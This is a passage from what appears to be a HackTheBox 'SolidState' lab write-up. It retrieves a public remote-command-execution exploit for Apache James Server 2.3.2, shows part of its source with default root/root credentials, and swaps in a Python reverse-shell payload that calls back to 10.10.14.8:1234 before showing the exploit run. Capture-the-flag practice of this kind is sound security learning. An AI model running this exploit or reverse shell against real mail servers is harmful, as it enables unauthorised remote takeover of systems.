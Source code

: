 Lets check out `Apache James Server 2.3.2 - Remote Command Execution` as that seems to be the most applicable one.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/SolidState]
└─# searchsploit -m 35513   

┌──(root㉿shiro)-[/home/shiro/HackTheBox/SolidState]
└─# cat 35513.py  
#!/usr/bin/python
#
# Exploit Title: Apache James Server 2.3.2 Authenticated User Remote Command Execution
# Date: 16\10\2014
# Exploit Author: Jakub Palaczynski, Marcin Woloszyn, Maciej Grabiec
# Vendor Homepage: http://james.apache.org/server/
# Software Link: http://ftp.ps.pl/pub/apache/james/server/apache-james-2.3.2.zip
# Version: Apache James Server 2.3.2
# Tested on: Ubuntu, Debian
# Info: This exploit works on default installation of Apache James Server 2.3.2
# Info: Example paths that will automatically execute payload on some action: /etc/bash_completion.d , /etc/pm/config.d

import socket
import sys
import time

# specify payload
#payload = 'touch /tmp/proof.txt' # to exploit on any user
payload = '[ "$(id -u)" == "0" ] && touch /root/proof.txt' # to exploit only on root
# credentials to James Remote Administration Tool (Default - root/root)
user = 'root'
pwd = 'root'
...
```

To use this payload, we can just edit the payload part to execute a Python reverse shell!

```python
payload = 'python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")\''
```

Finally, we can execute the script!

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/SolidState]
└─# python 35513.py 10.10.10.51
[+]Connecting to James Remote Administration Tool...
[+]Creating user...
[+]Connecting to James SMTP server...
[+]Sending payload...
[+]Done! Payload will be executed once somebody logs in.
```
